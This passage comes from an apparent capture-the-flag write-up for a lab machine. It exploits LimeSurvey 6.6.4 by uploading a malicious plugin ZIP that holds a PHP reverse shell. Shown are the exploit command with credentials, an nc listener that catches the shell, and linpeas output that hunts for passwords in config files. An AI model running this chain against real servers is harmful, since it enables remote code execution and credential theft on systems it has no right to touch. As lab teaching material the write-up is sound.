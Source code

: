 The first change I made was defining version 6.0 for the plugin's compatibility since the web application was running version 6.6.4 of LimeSurvey. I then changed the file path of the ZIP file used by the exploit script so that it points to the right location on my machine. Lastly, I changed the IP address in the reverse shell, so it matches my machine's IP address.

I then deleted the zip file. I did this because I had to prepare the ZIP file using my updated files.

```sh
┌──(kali㉿kali)-[~/Limesurvey-RCE]
└─$ rm Y1LD1R1M.zip
```

I then zipped the `config.xml` and `php-rev.php` files.

```sh
┌──(kali㉿kali)-[~/Limesurvey-RCE]
└─$ zip Y1LD1R1M.zip php-rev.php config.xml
  adding: php-rev.php (deflated 61%)
  adding: config.xml (deflated 56%)
```

My malicious plugin was now ready. I then started a listener on port 1337 and ran the exploit.

```sh
┌──(kali㉿kali)-[~/Limesurvey-RCE]
└─$ python3 exploit.py http://take-survey.heal.htb ralph 147258369 80
```

That gave me a reverse shell.

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.46] 52754
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 11:29:21 up  9:21,  3 users,  load average: 0.00, 0.06, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ron      pts/2    10.10.14.31      10:37   51:52   0.01s  0.01s -bash
ron      pts/3    10.10.14.42      11:25   21.00s  0.01s  0.01s -bash
ron      pts/1    10.10.14.31      10:32   54:45   0.01s  0.01s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

I then upgraded to a fully interactive shell and ran linpeas.sh.

In the linpeas output, I found the following passwords.

```sh
╔══════════╣ Searching passwords in config PHP files
/var/www/limesurvey/application/config/config-defaults.php:$config['display_user_password_in_email'] = true;
/var/www/limesurvey/application/config/config-defaults.php:$config['display_user_password_in_html'] = false;
/var/www/limesurvey/application/config/config-defaults.php:$config['maxforgottenpasswordemaildelay'] = 1500000;
/var/www/limesurvey/application/config/config-defaults.php:$config['minforgottenpasswordemaildelay'] = 500000;
/var/www/limesurvey/application/config/config-defaults.php:$config['passwordValidationRules'] = array(
/var/www/limesurvey/application/config/config-defaults.php:$config['use_one_time_passwords'] = false;
/var/www/limesurvey/application/config/config-sample-dblib.php:            'password' => 'somepassword',
/var/www/limesurvey/application/config/config-sample-mysql.php:            'password' => 'root',
```